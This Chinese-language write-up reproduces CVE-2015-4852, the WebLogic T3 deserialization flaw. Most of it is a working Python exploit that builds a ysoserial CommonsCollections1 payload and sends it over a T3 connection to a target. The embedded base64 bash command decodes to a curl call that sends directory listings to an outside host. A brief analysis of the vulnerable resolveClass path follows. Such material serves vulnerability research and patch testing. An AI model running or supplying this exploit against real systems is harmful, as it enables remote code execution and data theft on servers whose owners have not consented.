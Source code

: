 # CVE-2015-4852复现分析

## paylaod

```java
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial-0.0.5.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    print(payload)
    sock.send(payload)


if __name__ == "__main__":
    ip = ip
    port = port
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,Y3VybCBodHRwOi8vaW5mby55NHRhY2tlci50b3A/MT1gbHMgfGJhc2U2NGA=}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)
```

## 漏洞分析

T3协议接收过来的数据会在`weblogic.rjvm.InboundMsgAbbrev#readObject`这里进行反序列化操作。里面调用了`InboundMsgAbbrev.ServerChannelInputStream#readObject`方法，查看一下![](img/1.png)

这里调用创建一个内部类，并且调用`readObject`方法，还需要查看一下 `ServerChannelInputStream`实现。

在这里其实就可以看到`ServerChannelInputStream`是一个内部类，该类继承`ObjectInputStream`类，而在这里对`resolveClass`进行了重写![](img/2.png)

但是在此处看到，其实调用的还是父类的`resolveClass`方法。在`resolveClass`方法中也没做任何的校验，导致的漏洞产生



至此我们的反序列化点就有了，那么既然有了反序列化点，我们的 gadget也采用CC1即可，直接用ysoserial生成即可